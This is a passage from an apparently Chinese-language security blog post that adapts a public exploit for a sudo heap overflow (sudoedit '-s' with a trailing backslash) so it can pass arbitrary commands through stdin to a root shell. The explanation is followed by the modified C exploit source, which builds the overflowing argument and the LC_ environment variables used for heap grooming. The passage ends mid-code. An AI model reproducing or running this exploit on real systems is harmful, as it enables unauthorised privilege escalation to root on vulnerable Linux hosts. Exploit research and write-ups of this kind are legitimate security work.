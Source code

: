 ```c
        return 0;
}
```


![2021-02-10-03-10-12](https://images.payloads.online/af6100c0-4f5f-11ec-8c95-00d861bf4abb.png)

测试结果正确：2！

stdin的值为：`test\r\n1111`，wc -l 命令读取是以`\n`为每一项分割的，因此返回的是2。


这个方案可以直接拿到Exploit中，将stdin覆盖，向管道写入`密码\n命令`，然后把命令传入即可。

为什么这里是`密码\n命令`呢？

是因为第一个`\n`是为了结束密码的传递，然后开始堆溢出，溢出完成后，后续的命令刚好会传入到Shellcode启动的`/bin/sh`中。

![2021-02-10-03-13-24](https://images.payloads.online/af9a9182-4f5f-11ec-8201-00d861bf4abb.png)

修改后的Exploit：

```c
#include <unistd.h> // execve()
#include <string.h> // strcat()
#include <stdio.h>

int main(int argc, char * argv[]) {

    if(argc < 2){
        printf("Usage: %s <Command> \n",argv[0]);
        printf("[+]Refrence : @Qualys Research Team @Max Kamper \n");
        printf("[+]Modify by Rvn0xsy@ https://payloads.online\n");	
        return 0;
    }
    char * input_command = argv[1];
    int nSize = strlen(input_command)+6;
    
    char * command = malloc(nSize);
    memset(command,0x00,nSize);
    sprintf(command,"test\n\n%s\n",input_command);
    // 'buf' size determines size of overflowing chunk.
    // This will allocate an 0xf0-sized chunk before the target service_user struct.
    int i;
    char buf[0xf0] = {0};
    memset(buf, 'Y', 0xe0);
    strcat(buf, "\\");

    char* sudoedit_argv[] = {
        "sudoedit",
	    "-S",
        "-s",
        buf,
        NULL};

    // Use some LC_ vars for heap Feng-Shui.
    // This should allocate the target service_user struct in the path of the overflow.
    char messages[0xe0] = {"LC_MESSAGES=en_GB.UTF-8@"};
    memset(messages + strlen(messages), 'A', 0xb8);

    char telephone[0x50] = {"LC_TELEPHONE=C.UTF-8@"};
    memset(telephone + strlen(telephone), 'A', 0x28);

    char measurement[0x50] = {"LC_MEASUREMENT=C.UTF-8@"};
    memset(measurement + strlen(measurement), 'A', 0x28);

    // This environment variable will be copied onto the heap after the overflowing chunk.
```